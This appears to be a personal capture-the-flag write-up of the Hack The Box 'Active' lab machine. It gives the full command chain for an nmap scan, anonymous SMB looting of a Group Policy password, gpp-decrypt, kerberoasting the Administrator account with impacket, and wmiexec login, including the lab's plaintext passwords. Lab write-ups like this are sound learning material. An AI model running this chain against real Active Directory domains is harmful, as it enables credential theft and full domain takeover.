 ```bash
sudo nmap -sV -sC 10.129.104.132

```

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-23 09:31 CST
Nmap scan report for 10.129.104.132
Host is up (0.0085s latency).
Not shown: 983 closed tcp ports (reset)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Microsoft DNS 6.1.7601 (1DB15D39) (Windows Server 2008 R2 SP1)
| dns-nsid: 
|_  bind.version: Microsoft DNS 6.1.7601 (1DB15D39)
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-01-23 15:31:36Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
49152/tcp open  msrpc         Microsoft Windows RPC
49153/tcp open  msrpc         Microsoft Windows RPC
49154/tcp open  msrpc         Microsoft Windows RPC
49155/tcp open  msrpc         Microsoft Windows RPC
49157/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49158/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC; OS: Windows; CPE: cpe:/o:microsoft:windows_server_2008:r2:sp1, cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-01-23T15:32:30
|_  start_date: 2025-01-23T15:29:00
| smb2-security-mode: 
|   2:1:0: 
|_    Message signing enabled and required

```

```bash
smbclient -N //10.129.104.132/Replication
```

```bash
smbmap -R Replication -H 10.129.104.132
```



After seeing these files  it shows a groups.xml which i could see so i used the following to download all

```bash
smbclient -N //10.129.104.132/Replication

Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> RECURSE ON
smb: \> PROMPT OFF
smb: \> mget *

```


<?xml version="1.0" encoding="utf-8"?>
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-
8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06"
uid="{EF57DA28-5F69-4530-A59E-AAB58578219D}"><Properties action="U" newName="" fullName=""
description=""
cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw
/NglVmQ" changeLogon="0" noChange="1" neverExpires="1" acctDisabled="0"
userName="a

In this xml we find the username and a encrypted passsword,m after decription 

```bash
gpp-decrypt
edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
GPPstillStandingStrong2k18
```

WE GOT DAT PASSWORD, NOW LETS GET INTO THAT USERS SMB

```bash
smbclient -U SVC_TGS%GPPstillStandingStrong2k18 //10.129.104.132/Users
```

User flag:

![image.png](https://prod-files-secure.s3.us-west-2.amazonaws.com/668453a2-4d8e-409c-9b14-4995ce6d786f/de704f63-db4a-46ab-b535-95f3b24d95a6/image.png)

To use this account for further compromise we can use impacket to enumerate more users

```bash
GetADUsers.py -all active.htb/svc_tgs -dc-ip 10.129.104.132
Impacket v0.13.0.dev0+20240916.171021.65b774d - Copyright Fortra, LLC and its affiliated companies 

Password:
[*] Querying 10.129.104.132 for information about domain.
Name                  Email                           PasswordLastSet      LastLogon           
--------------------  ------------------------------  -------------------  -------------------
Administrator                                         2018-07-18 14:06:40.351723  2025-01-23 09:30:08.494960 
Guest                                                 <never>              <never>             
krbtgt                                                2018-07-18 13:50:36.972031  <never>             
SVC_TGS                                               2018-07-18 15:14:38.402764  2018-07-21 09:01:30.320277 

```

okay so, we try now using impacket to see what users have SPN enabled hinting at kerberoasting vulns with thwe following

```bash
GetUserSPNs.py active.htb/svc_tgs -dc-ip 10.129.104.132

```



We see admin has it enabled!

The following command allows us to grab the hash

```bash
GetUserSPNs.py active.htb/svc_tgs -dc-ip 10.129.104.132 -request

```

After cracking this we used 

```bash
wmiexec.py active.htb/administrator:Ticketmaster1968@10.129.104.132

```

then grabbed root! very cool!
